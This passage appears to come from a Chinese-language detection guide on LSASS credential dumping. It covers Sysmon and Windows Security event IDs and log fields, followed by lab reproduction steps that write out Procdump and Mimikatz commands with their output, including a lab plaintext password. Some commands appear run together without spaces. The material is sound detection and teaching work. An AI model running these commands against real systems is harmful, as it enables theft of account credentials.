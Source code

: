 **参考资源**：
- Procdump使用指南：<https://docs.microsoft.com/en-us/sysinternals/downloads/procdump>
- Mimikatz文档：<https://github.com/gentilkiwi/mimikatz>
- LSASS凭据提取：<https://adsecurity.org/?p=1760>

## 检测日志

**数据来源**：
- **Sysmon日志**（推荐）：
  - 事件ID1：进程创建（procdump.exe）
  - 事件ID10：进程访问（procdump访问lsass.exe）
  - 事件ID11：文件操作（lsass_dump.dmp创建）
- **Windows安全日志**：
  - 事件ID4688：新进程创建（procdump.exe）
  - 事件ID4656：进程访问lsass.exe（需启用对象访问审计）
- **网络流量**：
  - 捕获转储文件传输（SMB445/TCP、FTP21/TCP等）。
- **PowerShell日志**（可选）：
  - 事件ID4103/4104：若通过PowerShell调用procdump。

**关键日志字段**：
- 事件ID1/4688：
  - `Image`：C:\path\to\procdump.exe或procdump64.exe
  - `CommandLine`：包含`-malsass.exe`
  - `OriginalFileName`：procdump
  - `ParentImage`：cmd.exe或powershell.exe
- 事件ID10：
  - `SourceImage`：procdump.exe
  - `TargetImage`：lsass.exe
- 事件ID11：
  - `TargetFilename`：lsass_dump.dmp

## 测试复现

**环境配置**：
- 系统：WindowsServer2008R2
- 工具：Procdump64.exe、Mimikatz
- 用户：Administrator（密码：Password123）
- 日志：Sysmon（事件ID1、10、11）
- 路径：C:\Users\Administrator\Desktop\Procdump

**复现步骤**：
1. 执行Procdump转储LSASS：
   ```cmd
   C:\Users\Administrator\Desktop\Procdump>procdump64.exe-malsass.exe1.dmp
   ProcDumpv8.0-Writesprocessdumpfiles
   [13:42:47]Dump1initiated:C:\Users\Administrator\Desktop\Procdump\1.dmp
   [13:42:50]Dump1writing:Estimateddumpfilesizeis50MB.
   [13:42:51]Dump1complete:50MBwrittenin3.3seconds
   ```
2. 传输1.dmp到本地系统（通过共享文件夹）。
3. 使用Mimikatz提取凭据：
   ```cmd
   C:\Tools\mimikatz>mimikatz.exe"sekurlsa::minidump1.dmp""sekurlsa::logonpasswords"exit
   msv:
     *Username:Administrator
     *Domain:LAB
     *NTLM:<NTLMHash>
   wdigest:
     *Username:Administrator
     *Domain:LAB
     *Password:Password123
   ```
4. 验证日志：检查Sysmon事件ID1（procdump执行）、10（lsass访问）、11（1.dmp创建）。
